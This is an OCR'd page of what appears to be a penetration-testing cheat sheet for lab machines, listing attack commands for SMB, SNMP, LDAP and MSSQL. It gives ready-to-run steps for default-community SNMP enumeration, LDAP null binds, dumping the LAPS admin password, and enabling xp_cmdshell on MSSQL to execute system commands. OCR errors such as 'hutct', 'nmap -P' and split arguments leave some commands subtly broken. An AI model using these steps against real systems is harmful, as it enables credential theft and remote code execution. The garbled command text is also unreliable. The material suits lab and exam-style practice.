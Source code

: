 13: Share folder with **webroot**
14: **Path traversal** vulnerability
###Ref: **Sufferance**
15: Different **SMB users** have access to **different shares**
###Ref: **Forward**



# SNMP

1: **snmpwalk -c public -v1 10.10.10.10**
2: **snmp-check 10.10.10.10 -c public**
3: nmap -P 161,162 -sU 10.10.10.10
4: Use **Extend-MIB tables** to launch **RCE**
###Ref: **Escape**
5: **Write-Read** community string leads to **RCE**



# LDAP


1: **nmap -n -sV --script "ldap* and not brute" 10.10.10.10**
2: Check Null credentials: **ldapsearch -x -h 10.10.10.10 -D '' -w '' -b
"DC=hutct,DC=offsec"**
3: Authenticated: **ldapsearch -x -h 10.10.10.10 -D 'hutch\victim' -w '123123' -
b "DC=hutch,DC=offsec"**
4: If **LAPS** is enabled, try to query **admin** 's password: **ldapsearch -x -h
10.10.10.10 -D 'hutch\victim' -w '123123' -b "dc=hutch,dc=offsec" "(ms-MCS-
AdmPwd=*)" ms-MCS-AdmPwd**
###Ref: **Hutch**



# MSSQL

```
1: **sqsh -S 10.10.10.10 -U sa**
2: **python mssqlclient.py -p 1435 sa:123123@10.10.10.10**
3: Check and enable **xp_cmdshell**
a: **sp_configure 'show advanced options', '1'**
b: **RECONFIGURE**
c: **sp_configure 'xp_cmdshell', '1'**
d: **RECONFIGURE**
e: **xp_cmdshell cd C:/Users && dir**
###Ref: **Meathead**
4: **Get databases:** SELECT name FROM master.dbo.sysdatabases # Get
databases
5: **Get tables:** SELECT * FROM
<databaseName>.INFORMATION_SCHEMA.TABLES;
```

